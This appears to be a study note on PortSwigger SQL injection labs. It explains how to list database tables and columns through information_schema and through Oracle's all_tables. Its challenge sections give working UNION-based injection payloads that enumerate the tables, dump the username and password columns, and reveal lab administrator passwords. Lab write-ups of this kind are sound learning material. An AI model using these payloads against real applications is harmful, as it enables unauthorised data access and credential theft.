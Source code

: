 ```yaml
---
tags: ["information gathering", "sqli"]
image: "img/Portswigger/sql-injection.png"
---
```


==> Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.

-->You can query information_schema.tables to list the tables in the database:

SELECT \* FROM information_schema.tables

This returns output like the following:

```sql
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE
================================================
MyDatabase    dbo          Products   BASE TABLE
MyDatabase    dbo          Users      BASE TABLE
MyDatabase    dbo          Feedback   BASE TABLE
________________________________________________
```

This output indicates that there are three tables, called Products, Users, and Feedback.

You can then query information_schema.columns to list the columns in individual tables:

SELECT \* FROM information_schema.columns WHERE table_name = 'Users'

This returns output like the following:

```sql

TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE
=================================================================
MyDatabase    dbo          Users      UserId      int
MyDatabase    dbo          Users      Username    varchar
MyDatabase    dbo          Users      Password    varchar
```

This output shows the columns in the specified table and the data type of each column.

================================================================

## challenge

-> first check the number of tables using : `'+UNION+SELECT+"abc","def"-`-
-> after that check the table names using this payload : `'+UNION+SELECT+table_name, NULL+FROM+information_schema.tables--`
-> see the number of the columns using command : `'+UNION+SELECT+column_name, NULL+FROM+information_schema.columns+WHERE+table_name="users_zlvypg"--`

-> found 2 columns : 1)username_fuoiaa 2)password_jwsqrn
-> let's see the content of the tables : `'+UNION+SELECT+username_fuoiaa,password_jwsqrn+FROM+users_zlvypg--`

-> found the administrator password:

```bash
administrator:ffgwc2jemb2hq113pi87
```

## Equivalent to information schema on Oracle

--> On Oracle, you can obtain the same information with slightly different queries.

You can list tables by querying all_tables:

SELECT \* FROM all_tables

And you can list columns by querying all_tab_columns:

SELECT \* FROM all_tab_columns WHERE table_name = 'USERS'

## Challenge

-> In oracle,there is a table called `dual` so we can use it for finding the number of columns

-> first of all find the number of columns : `'+UNION+SELECT+'abc','def'+FROM+dual--`
-> we got response so Let's use this payload : `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`

-> found one table : `USERS_WYZASZ`
-> Let's read the data of that table : `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_WYZASZ'--`

-> got 2 tables : 1)PASSWORD_BIASBO 2)USERNAME_HMHMIU
-> Let's read the content of this 2 columns : `'+UNION+SELECT+PASSWORD_BIASBO,USERNAME_HMHMIU+FROM+USERS_WYZASZ--`

-> got the password of administrator :

```bash
administrator:gjqdv2xrnw5kynwhizpo
```
